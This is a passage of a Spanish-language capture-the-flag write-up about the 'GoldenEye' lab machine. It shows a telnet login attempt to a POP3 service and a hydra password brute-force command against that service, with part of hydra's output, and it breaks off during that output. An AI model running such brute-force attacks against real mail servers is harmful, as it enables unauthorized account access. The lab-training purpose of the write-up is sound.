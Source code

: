 ![Desktop View](/assets/Posts/GoldenEye/3.png){: width="972" height="589" }
_Sitio visto con user Boris_


## Phase 2: Email

De hacer conexion via **telnet** al puerto alto llegamos a un servidor de correos POP3 pero sin suerte con el user y pass.

```shell
# telnet 10.10.123.98 55007
Trying 10.10.123.98...
Connected to 10.10.123.98.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```

Lanzamos entonces nuestros ataques *hydra* (notar el formato de llamada de protocolos no http). Si la wordlist fasttrack no da resultados pasaremos a usar rockyou.txt pero para los ctfs suele ser la mejor:

```shell
hydra -l boris -P /usr/share/wordlists/fasttrack.txt  pop3://10.10.119.14:55007 -t 64 -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-24 16:13:19
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 64 tasks per 1 server, overall 64 tasks, 262 login tries (l:1/p:262), ~5 tries per task
[DATA] attacking pop3://10.10.119.14:55007/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] CAPABILITY: +OK
CAPA
TOP
```